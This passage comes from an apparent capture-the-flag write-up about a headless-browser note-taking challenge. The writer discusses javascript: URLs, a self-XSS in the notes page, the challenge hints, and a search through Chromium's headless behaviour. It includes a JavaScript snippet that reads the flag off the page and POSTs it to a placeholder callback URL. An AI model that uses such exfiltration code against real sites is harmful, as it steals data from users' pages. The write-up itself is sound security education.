 Thankfully, the code base isn't too large and I was able to skim over everything
fairly quickly. This confirmed that there were no restrictions on the report URL.
Maybe we can use [`javascript` URL's](https://en.wikipedia.org/wiki/Bookmarklet#History)?
I also noticed that the headless browser navigates to the account creation page,
creates an account with a completely random username and password, then creates
a note with the flag in it. Then, it navigates to `about:blank` and finally the
URL we control. If you're curious as to why it navigates to `about:blank`, this
prevents us from sending the below JavaScript (Via a `javascript` URL):

```js
//Get the flag
const flag = document.querySelector('p').innerText;

//Exfiltrate
fetch('[Callback URL here; check out https://hookbin.com]', {
  method: 'POST',
  mode: 'no-cors',
  body: flag
});
```

That would've made this challenge considerably easier, but it seems [EHHTHING](https://larry.sh/)
(The challenge author) already thought of that. Shucks! However, I noticed
that the notes page is vulnerable to self-XSS (Since there's absolutely zero
sanitization). But alas, I was a bit stuck. I started to examine the hints a
little more closely. For reference, they are:

1. Are you sure I followed all the best practices?
2. There's more than just HTTP(S)!
3. Things that require user interaction normally in Chrome might not require it
in Headless Chrome.

It's safe to say that hint #1 is related to not sanitizing user input and #2 is
related to `javascript` URL's. But I was confused about #3. I thought that I may
need to navigate backwards, grab the flag, and exfiltrate. Surely that's not too
hard, right? Well several days went by until I finally gave up on this idea.
It's not that it was difficult to navigate backwards (The [history API](https://developer.mozilla.org/en-US/docs/Web/API/History)
can do that), it's just that you can't execute code once the browser navigates
backwards, otherwise it would totally bypass the same-origin policy.

### Dialogs

I was starting to think that there might be some dialog the shows up in headful
browsers, but to prevent interference, the headless browser auto-closes or
auto-accepts something. If the headless browser allowed me to say, take a
screenshot or print a tab without user-interaction, I could open a tab with the
flag on it, take a screenshot or print it, and then upload the image buffer.
This rabbit hole lead me to search through the entire Chromium repository for
any behavior the `--headless` flag modifies (I knew it was Chrome since it's
installed in the `Dockerfile`). Unfortunately for me, only very minor behavior
related to PDF printing changes with the `--headless` flag.

By now, I was very puzzled by hint #3 - to be honest, at the time of writing
this, I still don't entirely know what it was referring to. But I also knew
there must be a way, so I persevered.
